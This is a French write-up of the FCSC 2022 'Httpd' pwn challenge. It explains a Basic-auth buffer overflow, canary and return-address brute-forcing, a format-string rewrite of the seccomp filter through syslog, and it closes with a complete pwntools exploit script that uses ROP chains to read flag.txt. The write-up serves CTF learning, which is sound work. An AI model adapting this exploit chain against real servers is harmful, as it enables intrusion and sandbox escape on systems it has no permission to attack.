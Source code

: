 Httpd

était un challenge de pwn du FCSC 2022 donc..

plus ou moins inspiré du challenge protostar

https://www.youtube.com/watch?v=MBz5C9Wa6KM

ou un process fils doit exploiter le processus parent via une format string dans syslog.

Le challenge d'origine a été durci par une sandbox, et toutes les protections du binaire sont activées,

canary, PIE, etc...

la vulnerabilité du processus fils qui parse les headers HTTP, se trouve dans checkauth()

la chaine en base64 de l'authentification basic du header HTTP, n'est pas vérifiée en longueur

et est décodée dans un buffer char creds[256];

ce qui cause un buffer overflow..

On procèdera donc au début à un bruteforce du canary, et de la valeur de l'addresse de retour afin de contourner l'ASLR.

Une fois ce bruteforce exécuté, on connait donc l'addresse de mappage en mémoire du binaire du fils (et du parent par conséquent, car fork préserver les addresses de mapping)

On va envoyer un ROP dans le fils qui va réécrire une format string dans la chaine stockéee dans la shared memory partagée entre le fils et le parent..et qui sera envoyé dans syslog() pour logguée l'utilisateur se connectant..

grâce à cette format string , on modifie dans la .bss le seccomp en place pour authoriser le syscall open,

et on lit et dump le flag, maintenant qu'on peut écrire un ROP open read write classique..

comme dans cet exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import base64

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("./httpd_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

if args.REMOTE:
  duration = 0.2
else:
  duration = 0.01

host, port = "challenges.france-cybersecurity-challenge.fr", "2058"

def genpayload(data):
  p = ''
  p += 'GET / HTTP/1.1\r\n'
  p += 'Host: ansimorons.com:8080\r\n'
  p += 'Connection: keep-alive\r\n'					# keep alive is important to keep connection open between payloads, (bool keepalive;  in struct shared)
  p += 'Authorization: Basic '+base64.b64encode(data)+'\r\n\r\n'
  return p


#--------------------------------------------------- START
print('bruteforcing canary...patience...')
canary = b'\x00'		# we already know that canary LSB is zero
if args.REMOTE:
  p = connect(host, port)
else:
  p = process(exe.path)
while(len(canary)<8):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00')+ canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag', timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

canary += 'A'*8+'\x9e'		# we already know return address lsb (0x9e)
while(len(canary)<24):
  i = 0
  while (i<256):
    payload = b'admin:admin'.ljust(0x108,b'\x00') + canary + p8(i)
    buff = ''
    p.send(genpayload(payload))
    buff=p.recvuntil('flag.',drop=True, timeout=duration)
    if 'Congrat' in buff:
      canary += p8(i)
      print('uptonow: '+hexdump(canary, total=False))
      i = 0
      break
    i += 1

# ok , after bruteforcing the return address, we can calculate the program base
prog = u64(canary[16:24]) - 0x289e
print('prog base = '+hex(prog))

exit_success = prog + 0x1663	# exit returning success
puts = prog + exe.sym['puts']
puts_got = prog + exe.got['puts']

set_csu = prog + 0x2a9a
call_csu = prog + 0x2a80
pop_rdi = prog + 0x0000000000002aa3 # pop rdi ; ret
pop_rsi = prog + 0x0000000000002aa1 # pop rsi ; pop r15 ; ret

def csucall(func,arg1,arg2,arg3):
  return p64(set_csu)+p64(0)+p64(1)+p64(arg1)+p64(arg2)+p64(arg3)+p64(func)+p64(call_csu)+p64(0)*7

# leak libc address from got
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
payload += p64(pop_rdi)+p64(puts_got)+p64(puts)+p64(exit_success)
p.send(genpayload(payload))
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.sym['puts']
print('libc base = '+hex(libc.address))
binsh = libc.address + 0x1abf05

#---------------------------------
# libc gadgets that we will use
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall', 'ret'])[0]
xchg_eax_edi = libc.address + 0x0000000000097ac5 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x0000000000096716 # xchg eax, edx ; ret
bss = prog + + exe.bss(0xa00)

#---------------------------------------------------------------------------------------
# ebpf filter rewrite with the format string
#---------------------------------------------------------------------------------------
off_read = 0x503c
off_write = 0x5044
off_sigreturn = 0x504c
off_exit = 0x5054
off_brk = 0x505c

context.log_level = 'debug'

def set_bpf(offset,val):
  global prog
  return '%'+str(250+val)+'c%12$hhnAAAAAA'+p64(prog+offset)

# we change authorized sigreturn syscall in the ebpf filter, to open syscall
payload2 = set_bpf(off_sigreturn, 2)	# return success always
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16]
# we read our format string into the shared memory zone, over the admin login..
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(libc.address + 0x1ed000+2) + p64(pop_rdx) + p64(len(payload2)) + p64(pop_rax)+p64(0)+p64(syscall)
payload += p64(exit_success)
p.send(genpayload(payload))
p.send(payload2)

#----------------------------------------------------------------------------
payload = b'admin:admin'.ljust(0x108,b'\x00') + canary[0:16] 
# file name we want to read
fname = 'flag.txt\x00'
# send data
#payload += p64(pop_rdx) + p64(0x10) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(prog) + p64(pop_rax) + p64(1) + p64(syscall)
# read filename and store it in the bss
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(len(fname)) + p64(pop_rax)+p64(0)+p64(syscall)
# open filename
payload += p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall)
# read file
payload += p64(xchg_eax_edi) + p64(pop_rsi) + p64(bss) + p64(pop_rdx) + p64(0x200) + p64(pop_rax)+p64(0)+p64(syscall)
# dump it to stdout
payload += p64(xchg_eax_edx) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss) + p64(pop_rax) + p64(1) + p64(syscall) + p64(exit_success)

p.send(genpayload(payload))
#buff = p.recv(0x10)
p.send(fname)

print(hexdump(p.recv()))

p.interactive()

```

